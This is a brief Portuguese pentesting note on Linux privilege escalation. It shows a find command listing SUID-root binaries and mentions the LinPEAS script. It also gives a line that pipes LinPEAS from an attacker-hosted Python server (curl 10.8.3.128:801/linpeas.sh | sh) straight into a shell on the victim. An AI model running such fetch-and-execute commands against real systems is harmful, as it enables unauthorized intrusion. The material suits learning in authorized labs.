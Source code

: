 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/comando-para-conseguir-os-shadowers/","noteIcon":""}
---
```


comando para conseguir os shadowers 
```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Há um script chamado LinPEAS que consegue achar escalamentos de privilégios dentro de uma máquina



## Inicie o Python server dentro da sua máquina e não na máquina da vitima 

**curl 10.8.3.128:801/linpeas.sh | sh**

```shell
sudo python -m http.server 801
[[Pentest/Priv. Escalation/Comando para conseguir os shadowers\|Comando para conseguir os shadowers]]